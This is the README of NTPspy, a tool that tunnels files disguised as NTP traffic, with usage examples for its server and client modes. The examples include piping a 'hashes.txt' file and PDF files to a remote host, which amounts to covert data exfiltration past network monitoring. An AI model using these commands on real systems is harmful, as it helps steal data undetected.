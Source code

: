 # NTPspy - data tunneling over NTP

Transfer files disguised in simulated NTP traffic.

## Usage

**Quick start:**

Choose a port, default standard NTP 123, and magic number - any 32bit hex number besides zero and start NTPspy in server mode.

Use the same port and magic number to invoke the client with a filename, list of filenames, or piped input. Use -t n to set minimum time interval between messages in seconds.

See built-in -h help for complete options.

**Server mode:**

`ntpspy.py -s <path> [-p port] [-m magic]`

`ntpspy.py -s "./incoming" -p 1230 -m 0xfefefefe`

**Client:**

`ntpspy.py [-p port] [-m magic] remote filename [filename ... ]`

`ntpspy.py -m 0xfefefefe remote:1230 *.pdf`

`cat hashes.txt | ntpspy.py -m 0xfefefefe -p 1230 remote`

Other options:

- -t Minimum interval between messages
- -q Just query server version/confirm NTPspy presence and exit

## System requirements

Python 3.7

## Known limits/issues

Don't have multiples server instances pointed at same store directory - they will overwrite each other's temporary files.

